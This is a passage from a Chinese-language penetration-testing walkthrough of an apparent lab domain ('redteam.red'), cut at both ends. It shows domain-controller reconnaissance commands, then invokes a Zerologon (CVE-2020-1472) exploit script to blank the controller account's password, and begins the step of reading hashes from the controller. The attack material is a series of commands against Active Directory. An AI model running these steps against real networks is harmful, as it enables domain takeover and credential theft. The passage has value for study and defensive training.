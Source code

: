   
端口的机器.  
  
- 查看域控制器组: 
```
net group &#34;domain controllers&#34; /domain
```

  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4Ou2uLNBVYA5Tvv6HQW9CzRerXjP8fxeSLdia186lxWCaOkGhuKdKvzLg/640?wx_fmt=png&from=appmsg "")  
- 查看域控的机器名: 
```
nslookup redteam.red; nslookup -type=SRV _ldap._tcp
```

  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OGsp5MokicEVEKO4TXZXmSFRCDRytibj5iaicuswagFoibNLabPbhf8Q3vcA/640?wx_fmt=png&from=appmsg "")  
- 查看域控当前时间: 
```
net time /domain
```

  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OqeFTKMTFb5Xoia6I9gJbVs3P5ibnFfWyYJHPsMzhjDX3yfH8THib6DhOw/640?wx_fmt=png&from=appmsg "")  
  
确定该台机器是域控制器后, 根据其版本信息尝试用
```
Netlogon
```

  
特权提升漏洞
```
CVE-2020-1472
```

  
进行攻击, 详细内容见内网渗透-账号提权.  
  
在验证存在
```
Netlogon
```

  
特权提升漏洞后, 先重置一下域账号, 置空密码: 
```
python cve-2020-1472-exploit.py OWA 10.10.10.8
```

  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OiaAKGibzicS70kCSX8xOrbcInVibZZ6kMw9fXZiajVqabxRXhkJFCDFzqDg/640?wx_fmt=png&from=appmsg "")  
  
接着读取域控中的
```
hash
```

